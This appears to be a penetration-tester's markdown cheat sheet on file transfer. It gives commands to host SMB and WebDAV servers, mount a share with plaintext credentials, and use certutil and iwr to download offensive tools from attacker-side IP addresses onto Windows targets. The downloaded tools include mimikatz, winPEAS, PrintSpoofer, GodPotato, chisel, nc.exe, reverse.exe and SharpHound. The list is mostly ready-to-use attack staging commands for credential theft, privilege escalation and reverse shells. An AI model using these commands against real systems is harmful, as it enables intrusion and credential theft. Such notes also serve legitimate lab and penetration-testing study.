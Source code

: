 # File Exchange

## Linux

Host smb server with credentials
```
 sudo smbserver.py share . -smb2support -username user -password P@ssw0rd
```

Mount a smb share
```
mount -t cifs -o "username=michelle,password=NotMyPassword0k?" //172.16.120.21/apps /mnt/
```

Host webdav server
```
wsgidav --host=0.0.0.0  --port=8080 --auth=anonymous --root .
```

## Windows

download a file using iwr
```
certutil.exe -urlcache -f http://192.168.45.230:8000/winPEASx64.exe winPEASx64.exe

iwr -uri http://192.168.45.179:8000/chisel.exe -Outfile chisel.exe

iwr -uri http://192.168.49.103:8000/mimikatz.exe -Outfile mimikatz.exe

iwr -uri http://192.168.49.103:8000/agent.exe -Outfile agent.exe

iwr -uri http://192.168.49.103:8000/winPEASx64.exe -Outfile winPEASx64.exe

iwr -uri http://192.168.45.241:8000/PowerView.ps1 -Outfile PowerView.ps1

iwr -uri http://192.168.45.246:8000/PowerUp.ps1 -Outfile PowerUp.ps1

iwr -uri http://192.168.49.124:8000/winPEAS.bat -outfile winPEAS.bat

iwr -uri http://192.168.49.103:8000/PrintSpoofer64.exe -Outfile PrintSpoofer64.exe

iwr -uri http://192.168.49.103:8000/GodPotato.exe -Outfile GodPotato.exe

iwr -uri http://192.168.49.103:8000/nc.exe -Outfile nc.exe

iwr -uri http://192.168.45.241:8000/reverse.exe -Outfile reverse.exe


iwr -uri http://192.168.45.241:8000/SharpHound.ps1 -Outfile SharpHound.ps1

iwr -uri http://192.168.49.124:8000/SharpHound.exe -Outfile SharpHound.exe

iwr -uri http://192.168.45.172:8000/Procmon.exe -Outfile Procmon.exe

iwr -uri http://192.168.45.241:8000/WSuspicious.exe -Outfile WSuspicious.exe
```
